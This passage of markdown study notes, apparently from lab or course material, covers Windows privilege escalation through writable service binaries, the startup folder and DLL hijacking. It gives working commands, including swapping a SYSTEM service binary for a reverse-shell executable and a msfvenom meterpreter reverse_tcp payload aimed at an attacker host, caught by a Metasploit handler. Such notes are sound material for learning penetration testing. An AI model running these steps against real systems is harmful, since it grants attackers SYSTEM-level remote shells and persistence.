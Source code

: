- More on: https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842
- Detailed on: https://systemweakness.com/windows-privilege-escalation-weak-registry-permissions-9060c1ca7c10

## Service Escalation: Insecure Service Executables
- Query the "filepermsvc" service and note that it runs with SYSTEM privileges (SERVICE_START_NAME).
	- `sc qc filepermsvc`
- Using accesschk.exe, note that the service binary (BINARY_PATH_NAME) file is writable by everyone:
	- `C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"`
- Copy the reverse.exe executable you created and replace the filepermservice.exe with it:
	- `copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y`
- Start a listener on Kali and then start the service to spawn a reverse shell running with SYSTEM privileges:
	- `net start filepermsvc`
	
## Escalation Path: Startup Applications
- Startup applicatins are similar to autoruns that we perform. When we boot up our machine, an application is going to startup.
- We will use icacls, it will look at the permissions of ACLs and allow us to see where we might have access.
- `icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
- From the output notice that the `BUILTIN\Users` group has full access '(F)' to the directory.
- Exploitation
	- Create a payload
	- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=attacker-ip -f exe -o x.exe`
  - Copy the generated file, x.exe, to the Windows VM.
  - Place x.exe in `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup`
  - Open Metasploit
  	- `use multi/handler/`
  	- `set payload windows/meterpreter/reverse_tcp`
  	- `set lhost <attacker-ip>`
  		- `run`
  - Log off and Login.
- icacls Documentation: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

## Escalation Path: DLL Hijacking
- DLL are libraries that contain code annd procedures used by Windows programs similar to .so (Shared Library) files in Unix.
- DLL hijacking is a method of injecting malicious code into a given service or application by loading an evil DLL, often replacing the originnal one, that will be executed when the service starts.
- If the application or service runs with administrative privileges, then the attacker can be able to run malicious DLL with elevated privileges.
- DLL Hijacking happens in two conditions.
	- Absolute Path
		- If the service has an absolute path, check if the path is writeable and place a malicious DLL file in the absolute path. 
	- Undefined Path
		- The directory from which the application loaded
    - C:\Windows\System32
    - C:\Windows\System
    - C:\Windows
    - The current working directory
    - The directories that are listed in the PATH environment variable.
		- If the service has an undefined path, check all the paths mentioned above and determine if any of them is writeable and place a malicious DLL file in the writeable path.
-Discovery
	- Open the Process Monitor Filter application
	- Path -> Ends With -> .dll